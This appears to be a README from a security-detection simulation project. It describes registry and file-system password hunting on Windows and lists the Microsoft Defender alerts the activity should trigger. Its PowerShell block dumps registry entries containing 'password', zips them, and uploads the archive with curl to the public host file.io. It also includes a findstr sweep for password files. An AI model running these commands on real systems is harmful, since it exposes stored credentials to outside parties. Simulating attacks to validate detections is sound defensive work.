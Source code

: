 # Password Detection

Attackers will query the Registry and local file system to find credentials and passwords saved by programs, services, user-created credential files, shared credential stores, configuration files with system or service passwords, or source code and binaries with embedded credentialsusers which may be used for automatic logons, enabling attackers to gain unauthorized access. Attackers then leverage the discovered password information to launch further attacks, such as unauthorized access, privilege escalation, or lateral movement within the network.

## Simulation

Search the local registry and file system to detect potential credentials that can be used elsewhere.

> **Note:** Download the [simulation script here](Invoke-PasswordDetectionSimulation.ps1).
> To execute the simulation run the command `Invoke-PasswordDetectionSimulation.ps1`.
> To clean up the simulation run the command `Invoke-PasswordDetectionSimulation.ps1 -CleanUp`.

### Registry Search

```powershell
$uploadLocation = "http://file.io/?expires=1s"
$folderPath = $folderPath = "$env:TEMP\creds"
New-Item -Path $folderPath -ItemType Directory -ErrorAction SilentlyContinue

reg query HKCU /f password /t REG_SZ /s > "$folderPath\HKCU_Passwords.txt"
reg query HKLM /f password /t REG_SZ /s > "$folderPath\HKLM_Passwords.txt"

$zipFilePath = "$folderPath\passwords.zip"
Compress-Archive -Path $folderPath -DestinationPath $zipFilePath -Force

curl -F "file=@$zipFilePath" $uploadLocation
```

### File System Search

```powershell
findstr /s /i /m "password" *.*
```

## Cleanup

```powershell
$folderPath = $folderPath = "$env:TEMP\creds"
Remove-Item -Path $folderPath -Recurse -Force
```

## Detections

| Alert Title | Alert Description | Alert Details |
| -- | -- | -- |
| Registry queried for passwords | A registry query operation searching for passwords was performed. Attackers search through registry keys, values, and data to steal credentials. | **Category:** Credential access<br/>**MITRE ATT&CK Techniques:** T1003: OS Credential Dumping, T1012: Query Registry, T1552.002: Credentials in Registry<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR <br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |
| Password stealing from files | An attacker tried to look for passwords in files or sysvol (MS14-025) | **Category:** Discovery<br/>**MITRE ATT&CK Techniques:** T1003: OS Credential Dumping, T1201: Password Policy Discovery, T1552: Unsecured Credentials, T1552.001: Credentials In Files, T1555: Credentials from Password Stores<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected<br/> |
| Suspicious curl behavior | Suspicious curl behavior has been observed on this machine. Attackers may use curl to download malicious files onto your machine, or to copy malicious files onto other machines in your network. | **Category:** Malware<br/>**MITRE ATT&CK Techniques:** T1105: Ingress Tool Transfer<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior<br/>**Detection status:** Detected |
| Possible content exfiltration | Data and file exfiltration was observed on this device. Attackers might be collecting sensitive data, including credentials for different services. Attackers often package the data collected to avoid detection on removal. | **Category:** Malware<br/>**MITRE ATT&CK Techniques:** T1041: Exfiltration Over C2 Channel, T1048: Exfiltration Over Alternative Protocol, T1048.002: Exfiltration Over Asymmetric Encrypted Non-C2 Protocol, T1567: Exfiltration Over Web Service<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |
